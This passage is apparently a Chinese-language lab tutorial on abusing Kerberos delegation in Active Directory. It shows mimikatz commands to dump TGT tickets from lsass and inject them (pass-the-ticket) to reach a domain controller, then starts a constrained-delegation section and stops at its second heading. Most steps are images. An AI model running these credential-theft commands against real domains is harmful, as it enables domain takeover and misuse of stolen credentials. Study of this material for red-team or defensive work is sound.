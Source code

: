 ### 1. 查找非约束委派主机账号

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIurd1V39n2XNkMxoIz6RwDNWZ2rw14qxdIUicskLzZ1cjvmuLty76eRQ/640?wx_fmt=png)

### 2. 导出票据

先访问域控，可以看到是访问失败的  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIG15ibJiaEDetFic1DlrEZfmeetKVhCQRtBcXN54lOREcicBrM8IpdibdeHw/640?wx_fmt=png)

  
我们用 sqladmin 或者任意域管账号访问 win8（这里域管账号登录在任意一台机器都可以）  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIbOB8Ja1qhoLicsULiaibJ9lVEbzUPsicaCwnoIhYE9hIqSBxo7b3eCGtzw/640?wx_fmt=png)

  
此时，在主机 win8 的 lsass.exe 内存中就会有域用户 sqladmin 的 TGT 票据。  
我们在 win8 上以管理员权限运行 mimikatz，执行以下命令  

```
privilege::debug 导出票据sekurlsa::tickets /export
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIbUdJKoALhdbcicZ6ibfwvBtkicFEq5OCJE3brvveM1JKaQ7iaeAV7Jo8pg/640?wx_fmt=png)

### 3. 注入票据

  
用 mimikatz 将这个票据导入内存中，然后访问域控。  

```
导入票据kerberos::ptt [0;33f6ebf]-2-0-60a00000-sqladmin@krbtgt-0DAY.ORG.kirbi查看票据kerberos::list
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIAlkjamZDZzAiaWbxuqJOeN1luzzEFH0q44Kficy40XocJtOGxxQkuEhQ/640?wx_fmt=png)

### 4. 访问域控

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIpKnEMmVhORVlakVZtCWFs2MKXmiadJg5BRHzD8COhwIW2ZicH0n4hAQA/640?wx_fmt=png)

约束性委派攻击
-------

  
操作环境：

• 域：0day.org• 域内主机：`windows 7`，主机名：PC-jack-0day，IP：192.168.3.62，用户：jack• 域控：OWA2010SP3

  
们设置了机器用户 PC-jack-0day 对 OWA2010SP3 的`cifs`服务的委派

### 1. 查找约束性委派的主机账号

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaICRE7Od1Y0IPdLeDEn0JMCgsIjO9phYefUl3JN8k103giaDUcPZnJfLA/640?wx_fmt=png)

### 2. 请求用户 TGT
